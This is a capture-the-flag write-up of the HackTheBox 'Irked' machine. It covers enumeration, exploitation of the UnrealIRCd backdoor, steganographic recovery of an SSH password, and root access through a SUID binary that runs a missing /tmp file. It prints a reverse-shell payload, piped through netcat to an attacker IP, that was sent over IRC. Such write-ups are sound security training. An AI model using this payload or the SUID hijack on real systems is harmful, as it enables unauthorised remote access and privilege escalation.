# Irked -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Irked (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-05-22

---

## TL;DR

### Exploited UnrealIRCd backdoor for initial shell. Steganography on the website's image revealed SSH creds. Privesc via a SUID binary that executed a missing file.
---

## Target info

- Host: `10.129.216.69`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`, `6697/tcp (irc)`

---

## Enumeration

Nmap results:





## Exploitation

From 0xdf's notes on the UnrealIRCd backdoor:



Testing the backdoor:



- When I ran it, ping was already happening.

Connected to IRC and sent the reverse shell payload:

```bash
nc 10.129.216.69 6697
```

```
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.172 443 >/tmp/f
```





## User



Found a hint in a hidden file:



- `UPupDOWNdownLRlrBAbaSSss`
- "steg" -- back to picture on website

**steghide didn't work** so downloaded steghide manually:



- Password found: `Kab6h+m+bbp2J:HG`



## Privilege escalation

Found SUID binary `viewuser`:



- It tries to execute `/tmp/listusers` which doesn't exist.

Created the file:



- **Permission denied** -- needed `chmod +x`.

```bash
chmod +x /tmp/listusers
```





Changed payload to `/bin/sh` and got root:



---

## Lessons & takeaways

- Steganography hints in hidden files -- always check for `.hint` or similar
- SUID binaries that call missing files are easy wins for privesc
- When a binary references a non-existent path, create it with your payload
---
